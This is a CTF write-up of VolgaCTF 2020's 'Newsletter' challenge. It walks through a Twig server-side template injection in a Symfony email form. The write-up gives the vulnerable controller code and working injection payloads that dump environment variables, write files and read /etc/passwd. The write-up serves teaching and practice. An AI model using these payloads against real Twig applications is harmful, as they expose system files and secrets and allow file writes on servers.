

# Newsletter [200]


We are presented with a email newsletter form along with the source code

```
  public function subscribe(Request $request, MailerInterface $mailer)
    {
        $msg = '';
        $email = filter_var($request->request->get('email', ''), FILTER_VALIDATE_EMAIL);
        if($email !== FALSE) {
            $name = substr($email, 0, strpos($email, '@'));
            $content = $this->get('twig')->createTemplate(
                "<p>Hello ${name}.</p><p>Thank you for subscribing to our newsletter.</p><p>Regards, VolgaCTF Team</p>"
            )->render();

            $mail = (new Email())->from('newsletter@newsletter.q.2020.volgactf.ru')->to($email)->subject('VolgaCTF Newsletter')->html($content);
            $mailer->send($mail);

            $msg = 'Success';
        } else {
            $msg = 'Invalid email';
            echo $msg;
        }
        return $this->render('main.twig', ['msg' => $msg]);
    }
```


You can straight up see it is vulnerable to **template injection**, the part before @ of the email is used in creating the template.

The user email passes through filter_var with FILTER_VALIDATE_EMAIL argument.
FILTER_VALIDATE_EMAIL uses `RFC 822` to check if an email is valid that means almost all characters are allowed if enclosed in quotes.

```
"(Injection here)"@vit.fail
```

*The only limitation was that the injected code could not be more than 64 chars(62 with the quotes)*

To further continue, I created a local enviornment with the given code to work in a debug php environment.

https://twig.symfony.com/doc/3.x/ 

Started of with `"{{dump(app)}}"` which gives out the complete var_dump of the objects we can work with.



### To print all environment variables

`"{{app.request.server.all|join(',')}}"`

I could not find the flag here so I moved to finding either a code execution or file read/write.

The app.request object also contained a files property, so I did a multipart file upload and the file was there.
I could access it using `"{{app.request.files.get(key}}"`

Digging the twig source code, the file object was an instance of

`Symfony::Component::HttpFoundation::File::UploadedFile` with parent class `Symfony::Component::HttpFoundation::File::File`

There was nothing interesting in these classes except a move function which allowed me to move the file with target as an argument.
So now I had file write on the server

### File write

`"{{app.request.files.get(1).move(app.request.query.get(1))}}"`

with the target director in url query `?1=/tmp/x/`

But unfortunately I did not have write permissions to `/var/www/newsletter/public/` to upload a shell so I continued my search.

The class `Symfony::Component::HttpFoundation::File::File` extended the inbuilt php class `SplFileInfo` https://www.php.net/manual/en/class.splfileinfo.php

It only contained metadata except for a openFile method which would give us a  `SplFileObject` that contained methods to read and write the file.

So my plan was to call the constructor on SplFileInfo with the path of the file I want to read.

### File read

`"{{app.request.files.get(1).__construct('/etc/passwd','')}}"`

which would give us a SplFileInfo on /etc/passwd and then we could do

`"{{app.request.files.get(1).openFile.fread(99)}}"`

But now the 62 character limit became a bottleneck.

I went through the documentation again and found two possible paths that I could go through.

1. With the file write I have,upload a template file with the file read code and then `` it 
This did not work as twig did not allow including template files outside of the template directory.

2. Do something like this `{{include(template_from_string(app.request.query.get(1)))}}`
which did not work as well as `template_from_string` is not enabled by default :/

At this  point I ultimately gave up and could not solve the challenge.

The solution was in easily visible in the documentation if I would have read carefully

`"{{'/etc/passwd'|file_excerpt(1,30)}}"`

:/


